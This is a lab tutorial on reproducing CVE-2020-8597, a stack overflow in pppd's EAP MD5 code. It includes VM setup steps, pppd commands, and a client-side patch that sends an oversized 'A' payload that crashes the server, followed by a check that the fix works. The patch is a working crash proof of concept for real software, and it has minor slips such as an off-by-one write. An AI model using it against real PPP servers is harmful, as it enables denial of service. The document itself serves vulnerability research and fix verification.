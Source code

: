 # CVE-2020-8597 - Buffer Overflow in pppd

Published: March 7th, 2020

In this short tutorial we will go over how to reproduce the crash from CVE-2020-8597.  This is a stack-based buffer overflow in the `pppd` binary.

We will use our own `pppd` binary compiled from source, using the latest version: `2.4.8`.

To accomplish this goal, we will need two Virtual Machines connected by a virtual serial port.  I typically use VirtualBox since it is open source, but the same sort of configuration should work on other hypervisors.

I spun up two VMs: 

* `pppd-server`
* `pppd-client`

The serial configuration settings for `pppd-server` look like this:

![Server Serial Configuration](https://gist.github.com/nstarke/551433bcc72ff95588e168a0bb666124/raw/8610f404b61c547d85560ccbfba73804af596cb2/0001-server-serial-config.png "Server Serial Configuration")

The serial configuration settings for `pppd-client` look like this:

![Client Serial Configuration](https://gist.github.com/nstarke/551433bcc72ff95588e168a0bb666124/raw/8610f404b61c547d85560ccbfba73804af596cb2/0002-client-serial-config.png "Client Serial Configuration")

After configuring the serial settings, spin up and install your choice of Linux Distribution.  I chose `Ubuntu 19.10`, but any linux distro should work.

Make sure the `pppd-server` VM is started **before** the `pppd-client` VM.

Now we need to test the connectivity of the serial connection:

![Testing Serial Connection](https://gist.github.com/nstarke/551433bcc72ff95588e168a0bb666124/raw/8610f404b61c547d85560ccbfba73804af596cb2/0003-testing-serial-connection.png "Testing Serial Connection")

When installation of the base operating system is completed and testing is successful, we will need a few packages to work with pppd:

```bash
# apt install build-essential gdb libssl-dev
```

Then we proceed to clone the `ppp` repository:

```bash
$ git clone https://github.com/paulusmack/ppp.git ~/ppp
```

Now on the server, we build and install `ppp`:

```bash
$ git checkout ppp-2.4.8
$ cd ~/ppp
$ ./configure
$ make
# make install
```

We now have `pppd` installed for the server.  Next repeat the instructions on `pppd-client`.

At this point we hae a version of `pppd` on both systems.  We need to then test the connection.

First, on the server, run the following command:

```bash
# pppd /dev/ttyS0 9600 noauth local lock defaultroute debug nodetach 172.16.1.1:172.16.1.2 ms-dns 8.8.8.8
```

Next, on the client, run the following command:

```bash
# pppd noauth local lock defaultroute debug nodetach /dev/ttyS0 9600
```

Now we should see the connection open up:

![Initial Connection](https://gist.github.com/nstarke/551433bcc72ff95588e168a0bb666124/raw/8610f404b61c547d85560ccbfba73804af596cb2/0005-initial-connection.png "Initial Connection")

Next we need to implement `EAP MD5-Challenge`.  We can do so by adjusting the server command and adding a file on the server filesystem.

The file we need to add is `/etc/ppp/chap-secrets` and should look like this:

```
admin   *       password        *
```

Where:

* `admin` is the username
* The first * is the server name
* `password` is the connection password
* The second * is the IP to accept connections from

Now we adjust the server command to:

```bash
# pppd /dev/ttyS0 9600 auth local lock defaultroute debug nodetach 172.16.1.1:172.16.1.2 ms-dns 8.8.8.8 require-eap
```

The last thing we need to do is make some changes to the `pppd-client` pppd binary.  On `pppd-client`, clean up the ppp project in `~/ppp`:

```bash
$ make clean
```

Then apply the following patch:

```
diff --git a/pppd/eap.c b/pppd/eap.c
index 082e953..0754597 100644
--- a/pppd/eap.c
+++ b/pppd/eap.c
@@ -75,8 +75,7 @@
 #ifndef SHA_DIGESTSIZE
 #define        SHA_DIGESTSIZE 20
 #endif
-
-
+#define PAYLOAD_SIZE 1024
 eap_state eap_states[NUM_PPP];         /* EAP state; one for each unit */
 #ifdef USE_SRP
 static char *pn_secret = NULL;         /* Pseudonym generating secret */
@@ -1392,8 +1391,8 @@ int len;
 #endif /* USE_SRP */
                eap_send_response(esp, id, typenum, esp->es_client.ea_name,
                    esp->es_client.ea_namelen);
-               break;
 
+               break;
        case EAPT_NOTIFICATION:
                if (len > 0)
                        info("EAP: Notification \"%.*q\"", len, inp);
@@ -1457,8 +1456,12 @@ int len;
                BZERO(secret, sizeof (secret));
                MD5_Update(&mdContext, inp, vallen);
                MD5_Final(hash, &mdContext);
-               eap_chap_response(esp, id, hash, esp->es_client.ea_name,
-                   esp->es_client.ea_namelen);
+               char payload[PAYLOAD_SIZE];
+               memset(payload, 'A', PAYLOAD_SIZE - 1);
+               payload[PAYLOAD_SIZE] = '\0';
+               eap_chap_response(esp, id, hash, payload, PAYLOAD_SIZE);
+               //eap_chap_response(esp, id, hash, esp->es_client.ea_name,
+                //   esp->es_client.ea_namelen);
                break;
 
 #ifdef USE_SRP
```

You can apply this patch by saving it as a file like this:

```bash
$ git apply client-payload.patch
```

Where `client-payload.patch` is the file name where we saved the aforementioned patch.

I chose to use the approach of modifying he `pppd` binary to avoid having to script out the entire `LCP` handshake process that begins link negotation on `ppp`.  While it should be possible to craft your own client using `scapy` and `pyserial`, it was definitely easier to just modify the existing `pppd` binary to do what we want.

Now recompile the project:

```bash
$ ./configure
$ make
# make install
```

Now we adjust the client command to be:

```bash
# pppd auth local lock defaultroute debug nodetach /dev/ttyS0 960
```

Then we run the server command first, and the following client command:

```bash
# pppd noauth local lock defaultroute debug nodetach /dev/ttyS0 9600 user notadmin password notpassword
```

You should see a crash now on the server:

![Crash](https://gist.github.com/nstarke/551433bcc72ff95588e168a0bb666124/raw/8610f404b61c547d85560ccbfba73804af596cb2/0006-crash.png "Crash")

Now, we want to verify the fix, so back on the server we run:

```bash
$ make clean
$ git checkout master
$ ./configure
$ make
# make install
```

Then repeat the last server+client commands!  You should not see a crash:

![No Crash](https://gist.github.com/nstarke/551433bcc72ff95588e168a0bb666124/raw/8610f404b61c547d85560ccbfba73804af596cb2/0007-no-crash.png "No crash")

Sources:

* [https://github.com/paulusmack/ppp/commit/8d7970b8f3db727fe798b65f3377fe6787575426](https://github.com/paulusmack/ppp/commit/8d7970b8f3db727fe798b65f3377fe6787575426)
* [https://www.virtualbox.org/wiki/PPP_Tunnel](https://www.virtualbox.org/wiki/PPP_Tunnel)

[Back](https://nstarke.github.io/)